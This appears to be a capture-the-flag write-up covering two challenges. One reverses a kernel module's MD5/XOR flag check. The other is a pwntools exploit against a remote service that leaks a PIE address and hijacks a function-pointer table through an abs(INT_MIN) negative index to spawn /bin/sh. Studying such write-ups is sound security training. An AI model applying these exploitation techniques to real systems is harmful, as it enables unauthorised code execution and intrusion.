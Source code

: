 ## bluepill

A kernel object is given, which I am not very familiar with, however, `pill_choice` is the critical function, obviously.

The basic logic is to get input from function `strncpy_from_user`, and test the input.

```c
  v5 = file_open("/proc/version");
  if ( v5 )
  {
    v6 = v5;
    file_read(v5, (unsigned __int8 *)magic, 0x1F4u);
    v7 = v6;
    v8 = &choice_35697;
    filp_close(v7, 0LL);
    if ( strlen((const char *)&choice_35697) > 0xB )
    {
      v9 = checks_35680;
      while ( 1 )
      {
        v10 = 0LL;
        memset(&v21, 0, 0x19uLL);
        *(_QWORD *)digest = 0LL;
        v19 = 0LL;
        s2 = 0LL;
        calc(v8, 4uLL, digest); //calculate md5 for 4 bytes
        do
        {
          v11 = magic[v10];
          v12 = digest[v10];
          v13 = 2 * v10++;
          sprintf((char *)&s2 + v13, "%02x", v11 ^ v12);
        }
        while ( v10 != 16 );
        if ( memcmp(v9, &s2, 0x20uLL) )
          break;
        v8 += 4;
        v9 += 33;
        if ( v8 == &choice_35697 + 12 )
        {
          printk(&success);
            //...
```

The length of string must be larger than 11, and then only 12 bytes are useful, which are grouped as 4 bytes and their md5 are calculated. To know `calc` is calculating md5, simply inspect the constants and global array data used and search them on google. However, in some other reverse challenges the hash algorithm may be modified, so this approach can't be 100% sure.

Then the md5 hashes will be `xor` with the content from `/proc/version`, then compare with the 

```assembly
.data:0000000000000800 checks_35680    db '40369e8c78b46122a4e813228ae8ee6e',0
.data:0000000000000821 aE4a75afe114e44 db 'e4a75afe114e4483a46aaa20fe4e6ead',0
.data:0000000000000842 a8c3749214f4a91 db '8c3749214f4a9131ebc67e6c7a86d162',0
```

so to get md5 hashes, simply `xor` the hex above with content in `/proc/version`, as shown.

```python
import hashlib
from pwn import *
proc_version = "Linux version 4.17.0-rc4+ (likvidera@ubuntu) (gcc version 7.2.0 (Ubuntu 7.2.0-8ubuntu3.2)) #9 Sat May 12 12:57:01 PDT 2018"
# obtained from cat /proc/version within the kernel given
keys = ["40369e8c78b46122a4e813228ae8ee6e", "e4a75afe114e4483a46aaa20fe4e6ead", "8c3749214f4a9131ebc67e6c7a86d162"]

def get_hashes():
	ret = []
	for i in xrange(0,3):
		one_hashes = ""
		hex_data = keys[i].decode("hex")
		for i in xrange(0,len(hex_data)):
			one_hashes += chr(ord(proc_version[i]) ^ ord(hex_data[i]))
		ret.append(one_hashes)
	return ret

def md5(string):
	m = hashlib.md5()
	m.update(string)
	return m.digest()

hashes = get_hashes()
for i in xrange(0, 3):
	print "".join("{:02x}".format(ord(c)) for c in hashes[i])

#0c5ff0f900941747d69b7a4de4c8da40
#a8ce348b696e32e6d619c34f906e5a83
#c05e2754376ae75499b5170314a6e54c
#crack the md5 using this website https://cmd5.org/
#g1Mm3Th3r3D1
```

However, this is not the flag, obtain the flag by accessing the kernel object.

```bash
$ echo "g1Mm3Th3r3D1" > /proc/bluepill
$ cat flag
```

## bowrain

### problems

1. no null termination in function `sub_CB0`, which is used to get a string, so PIE base address can be leaked.
2. `abs(INT_MIN)` is still a negative number
3. `x % n` is negative when x is negative

in function `main`

```c
 while ( 1 )
  {
    v4[0] = get_number();
    if ( v4[0] == -1 )
    {
      printf("\x1B[31;1merror:\x1B[0m not a number: %s\n", ::a1, *(_QWORD *)v4, v5);
        // leak PIE possible
    }
    else
    {
      v4[1] = abs(v4[0]) % 7;//can be negative if v4[0] is 2147483648
      memset(::a1, 0, endptr - (char *)::a1);
      v3 = (void (__fastcall *)(char *, _QWORD))*(&off_2030A0 + v4[1]);
      //will access a function pointer that can be manipulated by input if negative
      v3(++endptr, 0LL);
      //++endptr will point to the address just after the null terminator of input
    }
    print_choice();
```

and in `.data`

```assembly
.data:0000000000203020 a1              db 30h, 7Fh dup(0)
.data:00000000002030A0 off_2030A0      dq offset sub_AE0
.data:00000000002030A8                 dq offset sub_B1A
.data:00000000002030B0                 dq offset sub_B54
.data:00000000002030B8                 dq offset sub_B8E
.data:00000000002030C0                 dq offset sub_BC8
.data:00000000002030C8                 dq offset sub_C02
.data:00000000002030D0                 dq offset sub_C3C
```

buffer that holds the input is contiguous with the function pointers.

First of all, since there is no null termination, we can leak address of `sub_AE0` to get base address.

Secondly, if the index to access the function pointer table is negative, we can hijack the control flow to function `system`.

```python
from pwn import *

g_local=False
#context.log_level='debug'
if g_local:
	sh = process('./bowrain')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("159.65.80.92", 54321)

sh.send("A" * 0x80 + "\n")
sh.recvuntil("A" * 0x80)
leak = sh.recvuntil(": ")[:6] + "\x00\x00"
base = u64(leak) - 0xAE0
print hex(base)

payload = "2147483648" + "\x00" + "/bin/sh\x00"
payload += "A" * 5
assert len(payload) == 0x18
payload += ((0x80 - len(payload)) / 8) * p64(base + 0x958)
# spray the address of system, 
# so any access of function pointer table with negative index > -7 (by % operation)
# will give address of system
# excact number can be determined by debugging, but spraying is more convinient
sh.send(payload + "\n")
sh.interactive()
```

